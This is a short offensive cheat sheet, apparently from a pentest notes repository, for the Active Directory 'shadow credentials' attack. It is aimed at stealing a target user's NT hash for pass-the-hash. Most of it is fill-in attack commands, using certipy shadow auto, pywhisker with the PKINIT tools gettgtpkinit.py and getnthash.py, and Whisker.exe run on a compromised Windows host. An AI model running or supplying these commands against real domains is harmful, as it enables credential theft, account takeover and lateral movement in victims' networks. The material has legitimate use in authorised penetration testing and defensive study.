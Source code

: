 With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

# ABUSING SHADOW CREDENTIALS FROM OUTSIDE (from linux):
____________________________________________________


### SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 
` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user> `

` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user> `


### SHADOW CREDENTIALS ATTACK (old school method, with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
   
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
   
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
   
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py



` pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add" `

` < kerberos sync clock > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache `

` export KRB5CCNAME=<target user>.ccache `

` getnthash.py -key <key obtanined from previous command> <domain>/<target user> `



# ABUSING SHADOW CREDENTIALS FROM INSIDE (windows abuse):
______________________________________________________


### SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
  ` ./Whisker.exe add /target:<target user> `

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
  ` ./Whisker.exe list /target:<target user> `

 You can also remove targets from msDS-KeyCredentialLink
  ` ./Whisker.exe remove /target:<target user> `



